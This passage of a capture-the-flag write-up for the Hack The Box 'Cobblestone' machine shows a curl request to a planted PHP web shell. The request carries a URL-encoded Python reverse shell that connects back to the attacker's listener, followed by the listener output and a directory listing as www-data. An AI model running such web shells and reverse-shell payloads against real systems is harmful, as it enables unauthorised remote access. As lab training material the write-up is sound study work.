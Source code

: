 Just paste the query to the suggestion part and hit enter.

![Shell](/assets/img/cobblestone-htb-season8/cobblestone-htb-season8_shell_3.png)

We will also got the same result.

So it looks like the bash command is not working. <br>
&rarr; Gonna use the python command to catch the reverse shell.

```bash
└─$ curl "http://vote.cobblestone.htb/shell.php?cmd=python3+-c+%27import+socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.16.36%22%2C3333%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B+os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport+pty%3B+pty.spawn%28%22%2Fbin%2Fbash%22%29%27"
```

```bash
└─$ penelope -p 3333
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.xx.xx.xx • 172.xx.xx.xx • 10.10.16.36
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[-] Spawn MANUALLY a new shell for this session to operate properly
[-] Spawn MANUALLY a new shell for this session to operate properly
[+] Got reverse shell from cobblestone.htb~10.129.176.173-UNIX 😍 Assigned SessionID <1>
[!] This shell is already PTY
[!] Cannot detect shell. Abort upgrading...
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/cobblestone.htb~10.129.176.173-UNIX/2025_08_13-12_20_38-602.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
[-] Spawn MANUALLY a new shell for this session to operate properly
ls -la
total 100
drwxr-xr-x 9 root  root   4096 Aug 13 11:20 .
drwxr-xr-x 5 root  root   4096 Aug 13 11:20 ..
-rw-r--r-- 1 root  root     56 Sep 30  2024 composer.json
-rw-r--r-- 1 root  root  13867 Sep 30  2024 composer.lock
drwxr-xr-x 2 root  root   4096 Apr 23 07:57 css
drwxr-xr-x 2 root  root   4096 Sep 30  2024 db
-rw-r--r-- 1 root  root   2831 Apr 24 08:09 details.php
-rw-r--r-- 1 root  root   1150 Sep 30  2024 favicon.ico
drwxr-xr-x 2 root  root   4096 Oct  1  2024 img
-rw-r--r-- 1 root  root   6520 Apr 24 08:12 index.php
drwxr-xr-x 2 root  root   4096 Oct  1  2024 js
-rw-r--r-- 1 root  root   6369 Apr 24 07:40 login.php
-rw-r--r-- 1 root  root   1046 Apr 24 07:55 login_verify.php
-rw-r--r-- 1 root  root    101 Sep 30  2024 logout.php
-rw-r--r-- 1 root  root   1984 Apr 24 07:42 register.php
-rw-r--r-- 1 mysql mysql    42 Aug 13 11:20 shell.php
-rw-r--r-- 1 root  root    844 Apr 24 08:06 suggest.php
drwxr-xr-x 2 root  root   4096 Sep 30  2024 templates
drwxr-xr-x 5 root  root   4096 Sep 30  2024 vendor
drwxr-xr-x 2 root  root   4096 Sep 30  2024 webfonts
www-data@cobblestone:/var/www/vote$
```
